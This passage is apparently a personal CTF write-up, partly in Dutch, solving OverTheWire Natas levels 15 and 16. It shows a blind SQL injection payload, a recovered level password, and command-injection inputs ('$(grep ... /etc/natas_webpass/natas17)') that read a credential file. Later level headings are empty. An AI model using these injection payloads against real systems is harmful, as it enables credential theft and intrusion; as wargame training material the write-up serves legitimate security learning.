if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
```

no escaping or filtering, meaning that we can use SQL injection against this host

This looks like a **Blind SQL injection**

Blind SQL injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response. This attack is often used when the web application is configured to show generic error messages, but has not mitigated the code that is vulnerable to SQL injection.

The boolean condition we have is either:

- True: “This user exists.”
- False: “This user doesn’t exist.”

My assumption is that we’re looking for the natas16 password, and that there will also be a natas16 user to match

If I enter 

```" OR 1=1 -- ``` OR ```natas16```

I get:

**This user exists.**

We zullen nu adhv een script het passwoord proberen te bruteforcen:

Dit script voert een Blind SQL Injection aanval uit op natas15 om het wachtwoord van natas16 te achterhalen. Het test letter voor letter of een bepaalde substring van het wachtwoord klopt, gebaseerd op de boodschap "This user exists.".

Zie [blind-sql.py](blind-sql.py)

Output:

``` commands
┌──(osboxes㉿osboxes)-[~/Desktop]
└─$ python blind_sql.py 
Found one more char : h
Found one more char : hP
Found one more char : hPk
Found one more char : hPkj
Found one more char : hPkjK
Found one more char : hPkjKY
Found one more char : hPkjKYv
Found one more char : hPkjKYvi
Found one more char : hPkjKYviL
Found one more char : hPkjKYviLQ
Found one more char : hPkjKYviLQc
Found one more char : hPkjKYviLQct
Found one more char : hPkjKYviLQctE
Found one more char : hPkjKYviLQctEW
Found one more char : hPkjKYviLQctEW3
Found one more char : hPkjKYviLQctEW33
Found one more char : hPkjKYviLQctEW33Q
Found one more char : hPkjKYviLQctEW33Qm
Found one more char : hPkjKYviLQctEW33Qmu
Found one more char : hPkjKYviLQctEW33QmuX
Found one more char : hPkjKYviLQctEW33QmuXL
Found one more char : hPkjKYviLQctEW33QmuXL6
Found one more char : hPkjKYviLQctEW33QmuXL6e
Found one more char : hPkjKYviLQctEW33QmuXL6eD
Found one more char : hPkjKYviLQctEW33QmuXL6eDV
Found one more char : hPkjKYviLQctEW33QmuXL6eDVf
Found one more char : hPkjKYviLQctEW33QmuXL6eDVfM
Found one more char : hPkjKYviLQctEW33QmuXL6eDVfMW
Found one more char : hPkjKYviLQctEW33QmuXL6eDVfMW4
Found one more char : hPkjKYviLQctEW33QmuXL6eDVfMW4s
Found one more char : hPkjKYviLQctEW33QmuXL6eDVfMW4sG
Found one more char : hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
```

**hPkjKYviLQctEW33QmuXL6eDVfMW4sGo**

## Level 15 → Level 16

``` php
For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>

Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>
```

More characters are blocked compared to level 10: ```/[;|&`\'"]/```

Entering the same thing as last time doesn't work: http://natas16.natas.labs.overthewire.org/?needle=.*%20/etc/natas_webpass/natas17&submit=Search

That’s because our $key value is being put within quotes, so we’re searching for that entire string within dictionary.txt.

In other words, Level 10 had:

``` py
passthru("grep -i $key dictionary.txt");
```

Whereas this level has:

```py
passsthru("grep -i \"$key\" dictionary.txt");
```

### Allowable characters

```One of the things we still are allowed to do is $(...), where the ... is a command of our choice, since $ and parentheses are still allowed."```

### Grepping inside of our grep command

As with the last level, we can build out a solution one character at a time. We can do this with a nested subcommand of:

``` cmd
$(grep x /etc/natas_webpass/natas17)
```

Where x is any valid char, A-Z, a-z, and 0-9.

However, we still need a way of knowing whether that character was a match. To demonstrate, let’s pick a couple letters that we think are part of the password. Let’s try n, and insert that into our command:

``` cmd
$(grep n /etc/natas_webpass/natas17)
```

If we submit this (resulting URL is http://natas16.natas.labs.overthewire.org/?needle=%24%28grep+n+%2Fetc%2Fnatas_webpass%2Fnatas17%29&submit=Search), we get no output

From this behavior, we can assume that if our inner grep command evaluates to an empty string, we get all results back. In other words:

``` cmd
grep -i "$(grep n /etc/natas_webpass/natas17)" dictionary.txt
```

Evaluates to:

``` cmd
grep -i "" dictionary.txt
```

### Fine-tuning our grep search

While I think this approach is usable, we can go a step further and prove that this “collapsing” command behavior is happening. If our inner grep command is:

```
$(grep n /etc/natas_webpass/natas17)zigzag
```

Then in the case of no match, we should effectively be searching for zigzag by itself.
```
grep -i "$(grep ! /etc/natas_webpass/natas17)zigzag" dictionary.txt
# evaluates to
grep -i "zigzag" dictionary.txt
# which should output 5 words
```

But if we search for a value that exists, like maybe n, if we do get a match, the command will look like:

```
grep -i "$(grep n /etc/natas_webpass/natas17)zigzag" dictionary.txt
# evaluates to
grep -i "<somevaluehere>zigzag" dictionary.txt
# which should output nothing
```

This matching string <somevaluehere> with zigzag on the end should not match anything in dictionary.txt, so we should get nothing back.

### Building our script

With this strategy, we can now build out a script similar to the last level, where we use the true/false response to determine if we have a matching character or not.

[valid-chars.py](./valid-chars.py)

Output:

```
┌──(osboxes㉿osboxes)-[~/Desktop]
└─$ python valid-chars.py 
Found a valid char : 0
Found a valid char : 5
Found a valid char : 7
Found a valid char : 8
Found a valid char : 9
Found a valid char : b
Found a valid char : h
Found a valid char : j
Found a valid char : k
Found a valid char : o
Found a valid char : q
Found a valid char : s
Found a valid char : v
Found a valid char : w
Found a valid char : C
Found a valid char : E
Found a valid char : F
Found a valid char : H
Found a valid char : J
Found a valid char : L
Found a valid char : N
Found a valid char : O
Found a valid char : T
Matching chars:  05789bhjkoqsvwCEFHJLNOT
```

This script only outputs a list of matching chars (chars for which the nested grep command evaluates to a non-empty output, resulting in an empty list). It doesn’t compound any characters to find the entire password. Instead, it:

- Loops through A-Za-z0-9
- Sends the payload $(grep " + x + " /etc/natas_webpass/natas17)zigzag where x is one of the A-Za-z0-9 chars
- If the inner grep command evaluates to a non-empty value, the resulting search will be grep <long string>zigzag dictionary.txt which will return nothing. This means the char did match.
- If the inner grep command returns nothing, resulting in "" + zigzag (or just zigzag), we’ll see zigzag in the response. You can use print(response.text) to see the resulting HTML.
- In short, lack of zigzag in the response = matching char.

The resulting output is 05789bhjkoqsvwCEFHJLNOT. This string becomes our new list of valid chars, in place of A-Za-z0-9.

### Finding the password:

Next up, we’ll use the same approach as the previous level to slowly build out our password

TODO!!

## Level 16 → Level 17


## Level 17 → Level 18


## Level 18 → Level 19


## Level 19 → Level 20


## Level 20 → Level 21


## Level 21 → Level 22


## Level 22 → Level 23


## Level 23 → Level 24


## Level 24 → Level 25


## Level 25 → Level 26


## Level 26 → Level 27


## Level 27 → Level 28


## Level 28 → Level 29


## Level 29 → Level 30


## Level 30 → Level 31


## Level 31 → Level 32


## Level 32 → Level 33


## Level 33 → Level 34


